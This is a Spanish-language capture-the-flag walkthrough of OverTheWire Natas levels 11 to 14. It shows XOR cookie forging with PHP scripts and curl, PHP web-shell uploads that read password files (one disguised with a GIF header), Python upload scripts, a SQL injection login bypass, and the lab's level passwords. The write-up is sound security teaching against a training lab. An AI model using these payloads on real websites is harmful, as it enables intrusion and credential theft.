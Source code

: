 
## Natas11

Este ejercicio es mas complejo de lo habitual, basicamente te presenta un planel donde puedes cambiar el color de fondo de la página (con su representacion 
hexadecimal) y  un "index-source.html" en el que se muestra como toma los datos de ese color de antes y crea una cookie con ellos.
Lo he comprimido todo para que resulte mas legible.
```php
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");  //Diccionario por defecto ->  valor showpassword (no) y el color (blanco)

function xor_encrypt($in) { 
    $key = '<censored>';   $text = $in;   $outText = ''; // Un texto de entrada, una llave para encriptar y uno de salida tras la encriptacion.
    for($i=0;$i<strlen($text);$i++) { $outText .= $text[$i] ^ $key[$i % strlen($key)]; } // El algoritmo, no le vamos a prestar mucha atención
    return $outText;}   // El texto de salida ya encriptado.

function loadData($def) {
    global $_COOKIE;  
    $mydata = $def;   // Esto es la varaible $defaultdata de arriba solo que le han abreviado el nombre para liar.
    if(array_key_exists("data", $_COOKIE)) {   // Se comprueba que exista una cookie "data=algo"
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);  // La cookie que obtengamos se desencripta en "tempdata"
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) { 
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor']; }}}
    return $mydata;}  // $tempdata es un diccioanrio como el defaultdata (color y show password), $mydata cogera sus valores de $tempdata (replica pues)

function saveData($d) { setcookie("data", base64_encode(xor_encrypt(json_encode($d))));}  // Para crear la cookie data de $defaultdata supongo.

$data = loadData($defaultdata); // Esto es lo primero que hace el script, crear una cookie con el $defaultdata

if(array_key_exists("bgcolor",$_REQUEST)) {  // Esto simplemente es para comprobar que el color es valido y ponerlo de fondo
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) { $data['bgcolor'] = $_REQUEST['bgcolor']; }}
        
saveData($data);
```
Si hacemos una peticion curl al sistema se nos da una cookie. Cuyo nombre es "data" como decia el script.
```console
[cucuxii@parrot]~[natas]$: curl -s "http://natas11.natas.labs.overthewire.org" -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -I                           
Set-Cookie: data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D   # El %3D es "=" en urlencode
```
En el script de antes decimos que tenemos el diccionario con el color y si nos va a mostrar la contraseña o no, un algoritmo que lo encripta y
otro que lo desencripta de igual manera.

```php
php > print(base64_decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw="));
UK"H+O%▒pSWh]UZ-▒T%UhR^,^h   // bytes sin sentido, asi que habra que hacerlo todo de una
```
Vamos a crear un script que use la funcion xor_encript de antes, el base64 decode, el urldecode y el json encode para crear una cookie buena
```$data= array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");}"```

Tuve que investigar bastante, resulta que si tenemos un "xor", un texto encriptado y el mismo desencriptado ya podemos calcular la llave con eso, 
luego con la llave pues crear nuestro texto. 
El texto es la cookie que nos dan, y su version encriptada es el diccionario "defaultdata", de esos dos sacaremos la clave.
```php
<?php
$key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=');
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
$text = json_encode($defaultdata);
$outText = '';

for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];}
print($outText);
?>
```
```console
[cucuxii@parrot]~[natas]$: php xor.php                                                                                                                     
qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```
Ya tenemos la clave, ahora a crear con ella el diccionario bueno.
```php
<?php
$key = 'qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq';
$defaultdata = array("showpassword"=>"yes", "bgcolor"=>"#ffffff");
$text = json_encode($defaultdata);
$outText = '';

for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];}
print(base64_encode($outText));
?>
```
```console
[cucuxii@parrot]~[natas]$: php xor2.php 
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
[cucuxii@parrot]~[natas]$: curl -s "http://natas11.natas.labs.overthewire.org" -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK \
> --cookie "data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK"
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3<br>
```
## Natas12

Aquí hay un panel dónde podemos subir una foto, nos dicen que tiene que pesar máximo 1KB. Una vez subido te da un enlace para visualizarlo.
La cosa es crear un php ```<?php system("cat /etc/natas_webpass/natas13"); ?>``` con el nombre "natas.jpg"

Hay dos maneras de hacer esto
1. Subir el archivo pero interceptar con el burpsuite, cambiando el "filename: " de "natas.jpg" a "natas.php"
2. Hacer un script de python

```python
import requests
import re

url = 'http://natas12.natas.labs.overthewire.org/index.php'
name = 'natas12'
password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'
php = open('natas.jpg', 'rb')
# Subimos el archivo
req = requests.post(url, auth=(name, password), data = {"filename":"natas.php", "MAX_FILE_SIZE":"1000"}, files = {"uploadedfile": php})
# Pillamos el link que nos da
url2 = url.replace("index.php", re.findall(r'<a href="(.*?)">',req.text)[0])
req2 = requests.get(url2, auth=(name, password))
print(req2.text) # Imprimir el resultado del php interpretado
```
## Natas13

Igual que antes, pero ahora valida que lo que subamos sea una foto, asi que el "natas.jpg" es algo diferente. ¿Como sabe el sistema que es una foto a parte de por la extension? Porque lee los primeros bits. Dichos bits en cualquier archivo son la cabecera, los cuales dicen que clase de archivo es.
Para imagenes se suele usar "GIF8"
```
GIF8;
<?php system("cat /etc/natas_webpass/natas14"); ?>
```
```python
import requests
import re

url = 'http://natas13.natas.labs.overthewire.org/index.php'
name = 'natas13'
password = 'jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY'
php = open('natas.jpg', 'rb')

req = requests.post(url, auth=(name, password), data = {"filename":"natas.php", "MAX_FILE_SIZE":"1000"}, files = {"uploadedfile": php})
url2 = url.replace("index.php", re.findall(r'<a href="(.*?)">',req.text)[0])
req2 = requests.get(url2, auth=(name, password))
print(req2.text)
```
## Natas 14

Aquí nos encontramos un formulario por post "username y password" y un "index-source.html" que nos muestra que tanto el nombre como la contraseña se
meteran en una base de datos SQL.
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
El problema es que no hay sanitizacion asi que se puede la trampa. Si pones *" or 1=1-- -* dices que o la contraseña es un texto vacio (falso) o 1=1 (verdadero). Aqui la puerta OR dice que la sentencia es valida con que una sola cosa sea verdadera, y como *1=1*, pues adelante.

```python
import requests
import re

url = 'http://natas14.natas.labs.overthewire.org'
name = 'natas14'
password = 'Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1'
nombre = '" or 1=1-- -'
req = requests.post(url, auth=(name, password), data = {"username":nombre, "password":"test"})
print(req.text)
```
```console
[cucuxii@parrot]~[natas]$: python3 natas14.py
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br>
```




